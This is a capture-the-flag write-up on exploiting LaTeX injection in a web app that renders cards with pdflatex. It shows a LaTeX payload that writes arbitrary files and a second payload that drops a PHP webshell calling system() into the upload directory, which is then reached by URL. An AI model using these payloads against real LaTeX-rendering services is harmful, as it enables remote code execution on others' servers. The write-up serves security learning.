


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:



The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on PayloadAllTheThings such as [LaTeX Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX%20Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...



... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.